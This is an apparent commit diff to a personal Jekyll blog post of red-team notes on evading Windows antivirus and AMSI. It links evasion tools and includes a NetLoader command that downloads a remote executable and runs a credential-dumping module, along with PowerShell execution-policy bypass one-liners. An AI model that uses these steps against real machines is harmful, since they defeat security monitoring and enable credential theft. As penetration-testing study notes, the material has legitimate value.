

Before and after one commit to daniel2005d/daniel2005d.github.io, a Jekyll site: the page built from _posts/2024-07-16-bypass-av.md, in a window 1280 px wide and 1297 px high. Shown: the whole window at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add more content

````diff
--- a/_posts/2024-07-16-bypass-av.md
+++ b/_posts/2024-07-16-bypass-av.md
@@ -7,7 +7,10 @@
 
 # DefenderCheck
 
+DefenderCheck It's to be used to detect all bytecode that could be detected by AV.
+
 [https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)
+
 [Out-CompressedDll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)
 
 # AV Bypass
@@ -23,12 +26,36 @@
 ```
 3. Modify [SafetyKatz](https://github.com/Flangvik/BetterSafetyKatz/blob/master/SafetyKatz/Program.cs) with above value
 
-# Netloader
+## Netloader
 
 [https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)
 
-## Example
+### Example
 
 ```powershell
 Loader.exe -path http://xxxxx.exe skurlsa:ekeys exit
 ```
+
+## Invisi-Shell
+
+Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies.
+[https://github.com/OmerYa/Invisi-Shell](Invisi-Shell)
+
+## AMSITrigger
+
+To Scan custom script to avoid signature
+https://github.com/RythmStick/AMSITrigger
+
+## Invoke-Obfuscation
+
+To Obfuscate the AMSI bypass
+[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
+
+## Native
+
+```powershell
+powershell -ExecutionPolicy Bypass
+powershell -c cmd
+powershell -encodedcommand
+$env:PSExecutionPolicyPreference="bypass"
+```
````
